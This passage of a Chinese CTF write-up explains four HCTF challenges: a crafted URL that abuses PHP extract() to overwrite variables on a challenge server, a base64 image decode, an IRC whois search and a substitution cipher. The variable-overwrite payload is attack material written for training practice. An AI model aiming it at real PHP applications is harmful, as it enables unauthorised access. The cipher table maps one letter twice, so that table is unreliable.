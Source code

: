 构造url:

    http://121.40.86.166:39099/index.php?gift=<?php$flag='xxx';extract($_GET);if(isset($gift)){$content=trim(file_get_contents($flag));if($gift==$content){echo'hctf{...}';}else{echo'Oh..';}}?>&flag=index.php.bak

得到flag：`hctf{Awe3ome_Ex7ract!!!}`

## nvshen（100pt）

题目给了个base64编码后的图片：

    iVBORw0KGgoAAAANSUhEUgAAAdIAAAGUCAYAAACBYaNHAAAKQWlDQ1BJQ0MgUHJvZmlsZQAASA2dlndUU9kWh8+9N73QEiIgJfQaegkg0jtIFQRRiUmAUAKGhCZ2RAVGFBEpVmRUwAFHhyJjRRQLg4Ji1wnyEFDGwVFEReXdjGsJ7601896a/cdZ39nnt9fZZ+9917oAUPyCBMJ0WAGANKFYFO7rwVwSE8vE9wIYEAEOWAHA4WZmBEf4RALU/L09mZmoSMaz9u4ugGS72yy/UCZz1v9/kSI3QyQGAApF1TY8fiYX5QKUU7PFGTL/BMr0lSkyhjEyFqEJoqwi48SvbPan5iu7yZiXJuShGlnOGbw0noy7U......（太长省略）

解码成png图片：

linux命令：

     ~ ⮀ cat nvshen.txt | base64 --decode > nvshen.png

url伪协议：

    data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAdIAAAGUCAYAAACBYaNHAAAKQWlDQ1BJQ0MgUHJvZmlsZQAASA2dlndUU9kWh8+9N73QEiIgJfQaegkg0jtIFQRRiUmAUAKGhCZ2RAVGFBEpVmRUwAFHhyJjRRQLg4Ji1wnyEFDGwVFEReXdjGsJ7601896a/cdZ39nnt9fZZ+9917oAUPyCBMJ0WAGANKFYFO7rwVwSE8vE9wIYEAEOWAHA4WZmBEf4RALU/L09mZmoSMaz9u4ugGS72yy/UCZz1v9/kSI3QyQGAApF1TY8fiYX5QKUU7PFGTL/BMr0lSkyhjEyFqEJoqwi48SvbPan5iu7yZiXJuShGlnOGbw0noy7U......（太长省略）

得到一张女神图片（表示真不知道是谁，百度一下以为是柳岩，结果错了）。

flag：`爱新觉罗启星`

## IRC（300pt）

这题略坑，到官方IRC里找flag（有故意刷人气的嫌疑），经过一阵折腾之后通过whois查询每一个房间里的人，最终在 `klroot` 用户的whois信息中找到了flag。

flag：`hctf{ZXwz_ym_dinDIM_daDi_!}`

##FuckMe（350pt）

把洋字符看成是字母替换后的对应的密文就行，此题可根据词频来计算。也可根据flag的格式来找到入手点 `hctf{xxx}`，在文中找到 `おいひд{ёгфすχχすζшのёけдэгおいひд}`，得到如下对应关系：

    お ==> h
    い ==> c
    ひ ==> t
    д ==> f

将此4个替换原密文，然后根据敏锐的洞察力和扎实的英文基础得到25个字母（'z'未出现）的对应关系：

    я ==> a  ю ==> b  い ==> c  う ==> d
    ё ==> e  д ==> f  え ==> g  お ==> h
    э ==> i  ф ==> j  я ==> k  け ==> l  
    ы ==> m  г ==> n  す ==> o  せ ==> p  
    ж ==> q  ш ==> r  の ==> s  ひ ==> t  
    ζ ==> u  θ ==> v  ξ ==> w  π ==> x  
    χ ==> y  ? ==> z
